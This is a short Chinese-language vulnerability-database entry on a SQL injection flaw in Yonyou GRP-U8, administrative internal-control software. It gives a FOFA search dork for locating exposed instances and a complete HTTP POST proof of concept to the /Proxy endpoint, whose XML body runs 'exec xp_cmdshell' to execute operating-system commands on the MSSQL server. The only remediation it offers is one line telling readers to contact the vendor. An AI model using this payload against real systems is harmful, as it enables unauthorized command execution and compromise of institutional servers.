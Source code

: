 ```yaml
---
title: '用友GRP-U8行政事业内控管理软件SQL注入漏洞'
date: Mon, 21 Sep 2020 01:22:43 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞信息:

用友公司成立于1988年，全面提供具有自主知识产权的企业管理/ERP软件、服务与解决方案，是中国最大的管理软件、ERP软件、集团管理软件、人力资源管理软件、客户关系管理软件及小型企业管理软件提供商。其GRP-U8行政事业内控管理软件特定版本存在SQL注入漏洞，可用于命令执行执行。

#### 漏洞复现:

fofa\_dork: “用友GRP-u8”

##### POC:

```
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;)
Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache

cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell 'net user'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET> 
```输出md5值，用于poc验证： ![](用友GRP-U8行政事业内控管理软件SQL注入漏洞.assets/1627364300094557.jpg) 使用MSSQL xp\_cmdshell执行命令 ![](用友GRP-U8行政事业内控管理软件SQL注入漏洞.assets/1627364300316889.jpg)

#### 修复方案:

联系用友官方获得安全升级方案